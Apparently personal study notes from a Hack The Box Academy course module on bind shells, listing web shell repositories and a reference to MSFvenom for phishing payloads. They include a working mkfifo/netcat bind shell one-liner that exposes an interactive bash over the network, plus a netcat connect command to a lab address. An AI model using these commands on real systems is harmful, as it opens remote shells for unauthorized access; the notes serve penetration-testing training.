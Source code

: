 3 ## Bind Shell
Exemplary payload
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l targetIP Port > /tmp/f
```
Netcat connection command
```shell-session
alakin2504@htb[/htb]$ nc -nv 10.129.41.200 7777
```
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
https://github.com/samratashok/nishang
https://github.com/WhiteWinterWolf/wwwolf-php-webshell
MSFvenom - Used to craft a payload (used in phishing)
We can download our own file into Metasploits (Host 2)
[[PnS_Skills_Assessment]]

https://academy.hackthebox.com/achievement/1244319/115
